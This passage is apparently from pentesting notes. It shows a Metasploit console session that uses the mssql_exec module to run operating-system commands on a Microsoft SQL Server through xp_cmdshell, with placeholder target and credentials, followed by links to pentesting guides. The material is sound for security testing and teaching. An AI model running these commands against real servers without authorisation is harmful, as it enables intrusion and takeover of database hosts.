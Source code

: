 #### Execute Commands

```
msf > use auxiliary/admin/mssql/mssql_exec

msf auxiliary(admin/mssql/mssql_exec) > options

Module options (auxiliary/admin/mssql/mssql_exec):

   Name                 Current Setting                       Required  Description
   ----                 ---------------                       --------  -----------
   CMD                  cmd.exe /c echo OWNED > C:\owned.exe  no        Command to execute
   PASSWORD                                                   no        The password for the specified username
   RHOSTS                                                     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT                1433                                  yes       The target port (TCP)
   TDSENCRYPTION        false                                 yes       Use TLS/SSL for TDS data "Force Encryption"
   TECHNIQUE            xp_cmdshell                           yes       Technique to use for command execution (Accepted: xp_cmdshell, sp_oacreate)
   USERNAME             sa                                    no        The username to authenticate as
   USE_WINDOWS_AUTHENT  false                                 yes       Use windows authentification (requires DOMAIN option set)

msf auxiliary(admin/mssql/mssql_exec) > set rhosts <IP>

msf auxiliary(admin/mssql/mssql_exec) > set username <username>

msf auxiliary(admin/mssql/mssql_exec) > set password <password>

msf auxiliary(admin/mssql/mssql_exec) > set technique <xp_cmdshell | sp_oacreate>

msf auxiliary(admin/mssql/mssql_exec) > set cmd <command> [arguments]

msf auxiliary(admin/mssql/mssql_exec) > run
```

## References

- [MSSQL for Pentester Command Execution with XP_Cmdshell](https://www.hackingarticles.in/mssql-for-pentester-command-execution-with-xp_cmdshell/)

- [Pentesting MSSQL Microsoft SQL Server](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server)

- [MSSQL for Pentester Nmap](https://www.hackingarticles.in/mssql-for-pentesternmap/)

- [MSSQL for Pentester Metasploit](https://www.hackingarticles.in/mssql-for-pentester-metasploit/)

- [Admin MSSQL Auxiliary Modules](https://www.offensive-security.com/metasploit-unleashed/admin-mssql-auxiliary-modules/)
